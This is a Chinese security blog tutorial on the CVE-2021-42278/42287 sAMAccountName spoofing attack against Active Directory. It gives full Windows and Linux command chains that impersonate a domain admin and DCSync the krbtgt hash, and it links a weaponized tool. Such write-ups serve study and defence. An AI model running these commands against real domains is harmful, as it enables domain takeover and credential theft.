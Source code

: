 ```yaml
---
title: 「sAMAccountName spoofing」一个账户沦陷域控学习
tags: 域渗透
---
```


这两天一直跟着大家研究log4j2，又能给我们这些脚本小子吃3年饭了。（JB小子狂喜）

### 0x00 背景

漏洞编号为：`CVE-2021-42278`和`CVE-2021-42287`，可以看到影响还是非常广的

![image-20211212142928196](https://images-1258433570.cos.ap-beijing.myqcloud.com/images/20211212142929.png)

`CVE-2021-42278`，机器账户的名字一般来说应该以`$`结尾，但AD没有对域内机器账户名做验证。

`CVE-2021-42287`，与上述漏洞配合使用，创建与DC机器账户名字相同的机器账户（不以$结尾），账户请求一个TGT后，更名账户，然后通过S4U2self申请TGS Ticket，接着DC在`TGS_REP`阶段，这个账户不存在的时候，DC会使用自己的密钥加密`TGS Ticket`，提供一个属于该账户的`PAC`，然后我们就得到了一个高权限ST。



有人也叫这个漏洞为：**sAMAccountName spoofing**，不过看完过程也确实很符合这个名字。

### 0x01 利用

​	需要对属性`sAMAccountName` and `servicePrincipalName`，具有写权限。说到机器账户，就可以利用域内默认的MAQ特性，默认允许域账户创建10个机器账户，而创建者对于机器账户具有写权限，当然可以更改这两个属性。

​	查看MAQ是否有限制，查看LDAP中的`ms-ds-machineaccountquota`属性即可。

攻击流程：

1. 创建一个机器账户，这在之前的文章都有所提及，使用impacket的`addcomputer.py`或是`powermad`

   `addcomputer.py`是利用`SAMR协议`创建机器账户，这个方法所创建的机器账户没有SPN，所以可以不用清除

2. 清除机器账户的`servicePrincipalName`属性

3. 将机器账户的`sAMAccountName`，更改为DC的机器账户名字，注意后缀不带$

4. 为机器账户请求TGT

5. 将机器账户的`sAMAccountName`更改为其他名字，不与步骤3重复即可

6. 通过S4U2self协议向DC请求ST

7. DCsync

**通过用户账户利用的话，需要对用户账户有`GenericAll`的权限还有用户的凭据**

实际上只操作`sAMAccountName`属性，有`GenericWrite`或是`WriteProperty`，也可以达到相同效果

如果可以跨域创建机器账户或是有写权限的话，也可以利用此攻击进行跨域攻击。

#### Windows命令

```cmd
# 0. create a computer account
$password = ConvertTo-SecureString 'ComputerPassword' -AsPlainText -Force
New-MachineAccount -MachineAccount "ControlledComputer" -Password $($password) -Domain "domain.local" -DomainController "DomainController.domain.local" -Verbose

# 1. clear its SPNs
Set-DomainObject "CN=ControlledComputer,CN=Computers,DC=domain,DC=local" -Clear 'serviceprincipalname' -Verbose

# 2. rename the computer (computer -> DC)
Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "DomainController" -Attribute samaccountname -Verbose

# 3. obtain a TGT
Rubeus.exe asktgt /user:"DomainController" /password:"ComputerPassword" /domain:"domain.local" /dc:"DomainController.domain.local" /nowrap

# 4. reset the computer name
Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "ControlledComputer" -Attribute samaccountname -Verbose

# 5. obtain a service ticket with S4U2self by presenting the previous TGT
Rubeus.exe s4u /self /impersonateuser:"DomainAdmin" /altservice:"ldap/DomainController.domain.local" /dc:"DomainController.domain.local" /ptt /ticket:[Base64 TGT]

# 6. DCSync
(mimikatz) lsadump::dcsync /domain:domain.local /kdc:DomainController.domain.local /user:krbtgt 
```

或是Windows下的武器化工具：https://github.com/cube0x0/noPac

#### Linux命令

```shell
# 0. create a computer account
addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'ComputerPassword' -dc-host DC01 -domain-netbios domain 'domain.local/user1:complexpassword'

# 1. clear its SPNs
addspn.py -u 'domain\user' -p 'password' -t 'ControlledComputer$' -c DomainController

# 2. rename the computer (computer -> DC)
renameMachine.py -current-name 'ControlledComputer$' -new-name 'DomainController' -dc-ip 'DomainController.domain.local' 'domain.local'/'user':'password'

# 3. obtain a TGT
getTGT.py -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController':'ComputerPassword'

# 4. reset the computer name
renameMachine.py -current-name 'DomainController' -new-name 'ControlledComputer$' 'domain.local'/'user':'password'

# 5. obtain a service ticket with S4U2self by presenting the previous TGT
KRB5CCNAME='DomainController.ccache' getST.py -self -impersonate 'DomainAdmin' -spn 'cifs/DomainController.domain.local' -k -no-pass -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController'

# 6. DCSync by presenting the service ticket
KRB5CCNAME='DomainAdmin.ccache' secretsdump.py -just-dc-user 'krbtgt' -k -no-pass -dc-ip 'DomainController.domain.local' @'DomainController.domain.local'
```

### 0x02 总结

​	还记得之前我所发的相关文章吗，仔细思考，这个漏洞只需更改LDAP中的两个属性，而LDAP默认是协商签名，这意味着我们又可以通过NTLM relay的方式来达到这一效果，而触发Net-NTLM的方式又多种多样，这样将更加灵活，等待impacket，或许马上就会有这个利用了（JB小子再次狂喜）

### 参考

https://support.microsoft.com/en-us/topic/kb5008102-active-directory-security-accounts-manager-hardening-changes-cve-2021-42278-5975b463-4c95-45e1-831a-d120004e258e

https://support.microsoft.com/en-us/topic/kb5008380-authentication-updates-cve-2021-42287-9dafac11-e0d0-4cb8-959a-143bd0201041

https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing

https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html